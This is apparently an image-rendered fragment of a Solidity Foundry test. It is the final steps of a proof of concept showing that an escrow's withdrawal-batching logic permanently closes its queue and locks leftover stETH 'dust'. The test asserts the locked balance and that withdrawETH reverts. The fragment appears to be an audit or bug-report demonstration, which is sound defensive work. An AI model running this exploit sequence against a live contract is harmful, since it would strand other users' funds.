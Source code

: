 ```solidity

        // === Step 3: `requestNextWithdrawalsBatch` is called, triggering the flaw ===
        // The function will process 2000 ether and leave 50 ether as dust.
        // Then, it will see the 50 ether dust, find it's less than the 100 ether minimum,
        // and permanently close the withdrawal queue.
        console.log("Calling requestNextWithdrawalsBatch, expecting it to close the queue...");
        escrow.requestNextWithdrawalsBatch(100);

        // === Step 4: VERIFICATION - The queue is closed and the dust is locked ===
        console.log("--- VERIFICATION ---");

        // Core Assertion 1: The withdrawal queue is now permanently closed.
        assertTrue(escrow.isWithdrawalsBatchesClosed(), "Queue should be closed");
        console.log("SUCCESS: Withdrawal queue is confirmed to be permanently closed.");

        // Core Assertion 2: The remaining 50 ether are still in the contract.
        assertEq(stETH.balanceOf(address(escrow)), ATTACKER_DEPOSIT_AMOUNT, "Dust funds should remain in Escrow");
        console.log("SUCCESS: %s wei of dust are confirmed to be locked in the contract.", stETH.balanceOf(address(escrow)));

        // Final Assertion: Users cannot withdraw their remaining (dust) funds.
        vm.prank(attacker);
        vm.expectRevert(EscrowStateLib.RageQuitExtensionPeriodNotStarted.selector);
        escrow.withdrawETH();

        console.log("PoC Successful: User funds (dust) are PERMANENTLY LOCKED.");
    }
}
```
